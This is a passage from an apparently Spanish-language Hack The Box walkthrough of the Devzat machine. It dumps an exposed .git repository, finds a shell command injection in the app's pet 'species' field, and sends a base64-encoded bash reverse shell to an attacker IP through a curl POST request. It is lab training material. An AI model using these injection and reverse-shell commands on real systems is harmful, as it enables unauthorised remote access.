 Hay una herramienta para armar los repos llamada git-dumper ```sudo pip install git-dumper```  
```console
└─$ git-dumper http://pets.devzat.htb/.git/ ./.git
└─$ git log 
ef07a04 (HEAD -> master) back again to localhost only  
464614f fixed broken fonts
8274d7a init
└─$ git diff ef07a04 464614f  # Ahora solo funciona en el localhost, puerto 5000
└─$ git diff ef07a04 8274d7a  # Tema de fuentes 
└─$ git branch -a  # Solo la * master (para las otras igual) 
```
En la carpeta **/characteristics** hay archivos de varios animales con textos "Having a cat is like living in a shared apartment."  
El codigo fuente de la app está en **/src/App.svelte** y **/main.go**   
Analizamos el main.go en busqueda de funciones peligrosas:  
```console
└─$ cat main.go | grep -E "system|exec"
cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
```
Parece que hay que introducirle un animal y te muestra su seccion de la carpeta characteristics.    
O sea si species es *gato* pues te sale lo del *gato*.    

En la web hay una sección para elegir un animal y que se añada a la lista con la descripción.    
Ej si pones un perro llamado "Pizarro" se añadira con la descripción del perro de la carpeta **/characteristicas**  

![](/assets/images/htb-devzat/devzat4.png)

Añadimos un gato llamado "Benito":  
```/POST a http://pets.devzat/api/pet {"name":"Benito","species":"cat"}```
Segun lo de antes la parte vulnerable es species.  

Si pongo ";id" en species no sale nada raro, pero si me hago un ping ```";ping -c 1 10.10.14.12"``` recibo traza (```sudo tcpdump -i tun0 icmp -n```)
```console
└─$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'" | base64 -w0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK
└─$ curl -s -X POST "http://pets.devzat.htb/api/pet" -H "Content-type: application/json"
-d '{"Name":"Benito", "Species":"; echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK | base64 -d | bash "}'
```
-----------------------------
## Part 4: Entrando en el sistema
